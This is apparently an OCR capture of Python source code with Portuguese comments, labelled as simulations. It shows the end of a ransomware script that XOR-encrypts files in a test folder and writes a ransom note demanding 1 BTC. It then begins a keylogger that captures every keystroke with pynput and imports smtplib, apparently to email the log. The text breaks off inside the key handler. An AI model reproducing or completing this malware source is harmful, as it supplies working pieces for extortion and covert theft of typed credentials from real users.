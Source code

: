 def create_ransom_note(test_dir):
    """Gera nota de resgate."""
    note_path = os.path.join(test_dir, 'RANSOM_NOTE.txt')
    with open(note_path, 'w') as f:
        f.write('Seus arquivos foram criptografados! Pague 1 BTC para a chave de descriptografia.\nContato: hacker@ficticio.com')
    print(f'Nota de resgate criada: {note_path}')

# Execução principal (simulação)
if __name__ == '__main__':
    test_dir = 'test_files'
    
    # Passo 1: Criar arquivos de teste
    create_test_files(test_dir)
    
    # Passo 2: Criptografar arquivos
    for file in os.listdir(test_dir):
        if file.endswith('.txt') and not file.startswith('RANSOM_'):
            encrypt_file(os.path.join(test_dir, file), XOR_KEY)
    
    # Passo 3: Criar nota de resgate
    create_ransom_note(test_dir)
    
    # Passo 4: Descriptografar (comente se não quiser rodar imediatamente)
    # for file in os.listdir(test_dir):
    #     if file.endswith('.encrypted'):
    #         decrypt_file(os.path.join(test_dir, file), XOR_KEY)

Script: keylogger_simulado.py

import threading
import smtplib
from email.mime.text import MIMEText
from pynput import keyboard  # Requer pip install pynput

log = ""
log_file = 'keylog.txt'

def on_press(key):
    """Captura teclas pressionadas."""
    global log
    try:
        log += key.char
    except AttributeError:
        if key == keyboard.Key.space:
            log += ' '
        elif key == keyboard.Key.enter:
            log += '\n'
        else:
            log += f'[{key.name}]'
